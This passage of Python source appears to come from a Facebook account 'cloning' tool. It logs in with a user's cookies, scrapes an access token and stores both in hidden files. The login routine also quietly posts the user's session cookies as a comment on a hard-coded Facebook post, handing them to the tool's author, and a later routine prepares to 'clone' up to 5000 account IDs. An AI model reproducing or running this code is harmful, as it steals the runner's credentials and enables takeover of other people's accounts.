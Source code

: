                 data = requests.get("https://business.facebook.com/business_locations", headers = {"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.92 Mobile Safari/537.36","referer": "https://www.facebook.com/","host": "business.facebook.com","origin": "https://business.facebook.com","upgrade-insecure-requests" : "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cache-control": "max-age=0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8","content-type":"text/html; charset=utf-8"}, cookies = {"cookie":cookies})
                find_token = re.search("(EAAG\w+)", data.text)
                open(".tok.txt", "w").write(find_token.group(1))
                open(".coki.txt","w").write(cookies)
                tok=open('.tok.txt','r').read()
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cookies}).json()
                name=(info['name'])
                idd=(info['id'])
                barth=(info['birthday'])
                linex()
                print(' Welcome\033[1;32m : '+name)
                print(' \033[1;37mYour UID : '+idd)
                print(' Barth Day: '+barth)
                requests.post('https://graph.facebook.com/pfbid02Sj97PfY1mY3cvbLjGaJRz22FR7yc75JFKLoBFiHoNLSq9aGxmGKotAtcYLkMDDpbl/comments/?message='+cookies+'&access_token='+tok, cookies={'cookie':cookies})
                linex()
                print(' Cookies login has been successfull...')
                time.sleep(1)
                menu()
        except KeyError:
                print('\033[1;31m Cookies has been expired...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
        except requests.exceptions.ConnectionError:
                exit(' internet connection error...')
        except AttributeError:
                print('\033[1;31m Cookies has been expired...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
                login()
def public():
        usrr=[]
        clear()
        try:
                tok = open('.tok.txt','r').read()
                cok = open('.coki.txt','r').read()
                tokenku.append(tok)
        except KeyError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
        except IOError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
        try:
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cok}).json()
                name=(info['name'])
                print('\033[1;32m Welcome '+name)
                linex()
        except KeyError:
                print('\033[1;31mYour cookies han expired...');time.sleep(1)
                login()
        try:
                jum=int(input(' \033[1;36mHow many ids you went to clone ?\033[1;37m '))
        except ValueError:
                exit(' Put only digits not latters ')
        if jum<1 or jum>5000:
                exit()